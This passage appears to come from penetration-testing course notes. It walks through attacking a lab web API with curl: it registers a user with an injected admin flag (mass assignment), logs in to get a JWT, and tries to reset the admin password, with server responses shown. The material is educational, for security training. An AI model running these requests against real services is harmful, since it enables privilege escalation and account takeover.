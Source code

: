 The API return message shows that the authentication failed, meaning that the API parameters are correctly formed
+ Since we don't know admin's password, let's try another route and check whether we can register as a new user. This might lead to a different attack surface
+ Let's try registering a new user with the following syntax by adding a JSON data structure that specifies the desired username and password:
```
kali@kali:~$curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register

{ "status": "fail", "message": "'email' is a required property"}
```

The API replied with a fail message stating that we should also include an email address
+ We could take this opportunity to determine if there's any administrative key we can abuse. Let's add the _admin_ key, followed by a _True_ value:
```
kali@kali:~$curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}
```

Since we received no error, it seems we were able to successfully register a new user as an admin, which should not be permitted by design
+ Next, let's try to log in with the credentials we just created by invoking the **login** API we discovered earlier:
```
kali@kali:~$curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}
```
+ We were able to correctly sign in and retrieve a JWT authentication token
	+ To obtain tangible proof that we are an *administrative user*, we should use this token to change the admin user password.

We can attempt this by forging a POST request that targets the **password** API:
```
kali@kali:~$ curl  \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'

{
  "detail": "The method is not allowed for the requested URL.",
  "status": 405,
  "title": "Method Not Allowed",
  "type": "about:blank"
```
+ We passed the JWT key inside the _Authorization_ header along with the new password

